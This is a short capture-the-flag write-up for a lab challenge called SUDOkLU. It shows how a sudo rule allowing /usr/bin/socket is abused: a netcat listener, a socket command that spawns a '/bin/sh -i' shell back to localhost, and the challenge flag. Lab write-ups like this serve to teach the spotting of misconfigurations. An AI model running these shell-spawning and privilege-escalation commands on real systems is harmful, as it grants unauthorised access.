

# SUDOkLU



Using `sudo -l`, I see that we can run `/usr/bin/socket` as root. Using this knowledge, we can easily get the flag using two different sessions.

The first session sets up a listener:

```
user@sudoklu:~$ nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 127.0.0.1 40340
$ cd ~
$ ls
flag.txt
$ cat flag.txt
Hero{ch3ck_f0r_m1sc0nf1gur4t1on5}
```

The second session spawns the shell:

```
user@sudoklu:~$ sudo -u privilegeduser /usr/bin/socket -qvp '/bin/sh -i' localhost 1337
inet: connected to localhost port 1337
```
